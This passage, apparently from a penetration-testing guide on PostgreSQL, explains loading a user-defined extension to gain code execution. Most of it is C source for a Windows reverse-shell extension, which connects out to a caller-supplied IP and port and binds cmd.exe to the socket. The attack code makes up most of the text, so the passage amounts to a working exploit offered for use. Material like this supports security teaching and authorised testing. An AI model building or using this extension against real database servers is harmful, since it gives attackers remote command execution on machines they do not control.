 ## User-defined extensions

Instead of writing scripts to disk and somehow getting the target application to
execute it, we can define custom extensions and functions in PostgresSQL. A
PostgreSQL extension is a compiled shared object (e.g. a `.dll` or `.so` file)
using PostgreSQL's extension library. Extension library files _must_ be compiled
using PostgreSQL's extension library, or else the won't be recognized by the
server and will fail to load. Here's an example of a reverse shell extension
written in **C**, targeted at the Windows operating system:

```c
#include "postgres.h"
#include <string.h>
#include "fmgr.h"
#include "utils/geo_decls.h"
#include <stdio.h>
#include <winsock2.h>
#include "utils/builtins.h"
#pragma comment(lib, "ws2_32")

#ifdef PG_MODULE_MAGIC
PG_MODULE_MAGIC;
#endif

/* Add a prototype marked PGDLLEXPORT */
PGDLLEXPORT Datum rev_shell(PG_FUNCTION_ARGS);
PG_FUNCTION_INFO_V1(rev_shell);

WSADATA wsaData;
SOCKET s1;
struct sockaddr_in hax;
char ip_addr[16];
STARTUPINFO sui;
PROCESS_INFORMATION pi;

Datum
rev_shell(PG_FUNCTION_ARGS)
{

	/* convert C string to text pointer */
#define GET_TEXT(cstrp) \
   DatumGetTextP(DirectFunctionCall1(textin, CStringGetDatum(cstrp)))

	/* convert text pointer to C string */
#define GET_STR(textp) \
  DatumGetCString(DirectFunctionCall1(textout, PointerGetDatum(textp)))

	WSAStartup(MAKEWORD(2, 2), &wsaData);
	s1 = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, (unsigned int)NULL, (unsigned int)NULL);

	hax.sin_family = AF_INET;
	hax.sin_port = htons(PG_GETARG_INT32(1));
	hax.sin_addr.s_addr = inet_addr(GET_STR(PG_GETARG_TEXT_P(0)));

	WSAConnect(s1, (SOCKADDR*)&hax, sizeof(hax), NULL, NULL, NULL, NULL);

	memset(&sui, 0, sizeof(sui));
	sui.cb = sizeof(sui);
	sui.dwFlags = (STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW);
	sui.hStdInput = sui.hStdOutput = sui.hStdError = (HANDLE)s1;

	CreateProcess(NULL, "cmd.exe", NULL, NULL, TRUE, 0, NULL, NULL, &sui, &pi);
	PG_RETURN_VOID();
```